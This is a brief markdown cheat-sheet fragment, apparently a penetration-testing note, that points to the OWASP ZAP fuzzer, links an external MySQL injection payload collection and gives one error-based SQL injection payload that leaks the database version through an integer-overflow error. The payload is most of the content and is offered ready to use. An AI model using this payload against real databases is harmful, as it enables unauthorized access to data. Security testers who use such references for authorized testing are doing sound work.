 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- 

' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT <font color="green">version()</font>)s), 8446744073709551610, 8446744073709551610)))#

